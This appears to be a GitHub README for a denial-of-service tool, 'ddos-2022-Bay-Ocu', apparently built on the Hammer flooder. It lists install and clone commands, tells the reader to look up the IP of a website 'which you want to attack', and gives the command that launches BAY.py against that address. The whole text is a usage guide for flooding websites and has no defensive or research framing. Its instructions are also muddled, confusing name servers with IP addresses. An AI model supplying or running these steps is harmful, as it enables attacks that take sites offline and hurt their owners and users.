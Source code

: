 # ddos-2022-Bay-Ocu

##CLONE<br>##
# $ apt update<br>
# $ apt upgrade<br>
# $ apt install python<br>
# $ apt install git<br>
# $ apt install dnsutils<br>
# $ git clone https://github.com/BayYocu1/ddos-2022-Bay-Ocu.git

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
# $ cd ddos-2022-Bay-Ocu<br>
# $ python BAY.py -s [ip Address] -t 135<br>
example:<br>
# $ python BAY.py -s 123.45.67.89 -t 135<br>
